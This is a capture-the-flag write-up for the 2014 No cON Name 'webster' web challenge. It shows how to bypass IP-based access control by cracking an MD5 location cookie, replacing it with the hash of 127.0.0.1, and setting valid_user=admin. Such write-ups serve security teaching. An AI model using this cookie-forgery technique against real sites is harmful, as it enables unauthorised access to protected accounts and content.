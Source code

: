 ## No cON Name CTF 2014 - webster (Web 200)
##### 14/09/2014 (20hr)
___

### Description: 
Super-secure cloud service.

https://ctf.noconname.org/webster/

___
### Solution
Try to login in the form. After few attempts login as test:test
Let's look the .htaccess file:
```
   Order allow,deny  
   Deny from all  
   Satisfy all  
```

In order to satisfy this rule we should be on the same lan with the server.
Let's look at the cookies:
```
	loc=c869d000ef5c6fdfa128b058d2865512;
```

After few tries, we finally can crack the hash:
```
	md5(10.128.29.136) = c869d000ef5c6fdfa128b058d2865512
```

Let's set the ip to localhost (127.0.0.1):
```
	MD5(127.0.0.1): f528764d624db129b32c21fbca0cb8d6
```

Change the from: ``` Cookie: valid_user=test; loc=c869d000ef5c6fdfa128b058d2865512; ```

to:              ``` Cookie: valid_user=admin;loc=f528764d624db129b32c21fbca0cb8d6; ```

Finally make a request to:
```
	https://ctf.noconname.org/webster/content.php?op=4
```

and get the flag: **NCN_f528764d624db129b32c21fbca0cb8d6**
___
